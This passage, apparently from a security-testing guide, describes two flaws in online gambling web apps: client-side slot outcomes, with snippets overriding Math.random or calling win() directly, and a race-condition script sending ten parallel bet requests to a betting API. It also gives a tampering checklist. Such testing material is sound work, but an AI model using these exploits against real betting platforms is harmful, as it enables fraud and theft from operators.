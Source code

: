 ### 1. **Game Logic Manipulation**

**Vulnerability:** Client-side game result calculation

**Example Scenario:**
```javascript
// Vulnerable client-side code
function spinSlot() {
    let result = Math.random() * 100;  // Generated on client!
    if (result > 95) {
        win(1000);
    }
}
```

**Exploitation:**
```javascript
// Override Math.random()
Math.random = function() { return 0.96; };  // Always win!

// Or manipulate result directly
win(999999);  // Call win function directly
```

**Testing Checklist:**
```
✓ Open developer console during gameplay
✓ Look for game logic in JavaScript
✓ Test if results are client-generated
✓ Check if win conditions are client-side
✓ Try calling game functions directly
✓ Modify game state variables
✓ Intercept and modify websocket messages
```

---

### 2. **Race Condition in Betting**

**Vulnerability:** Multiple simultaneous bets before balance update

**Exploitation:**
```javascript
// Place same bet multiple times before balance updates
async function raceBets() {
    const promises = [];
    for(let i = 0; i < 10; i++) {
        promises.push(
            fetch('/api/bet/place', {
                method: 'POST',
                body: JSON.stringify({
                    amount: 1000,
                    gameId: 123
                })
            })
        );
    }
    
    // All requests sent simultaneously
    await Promise.all(promises);
    // Balance only deducted once but 10 bets placed!
}
```
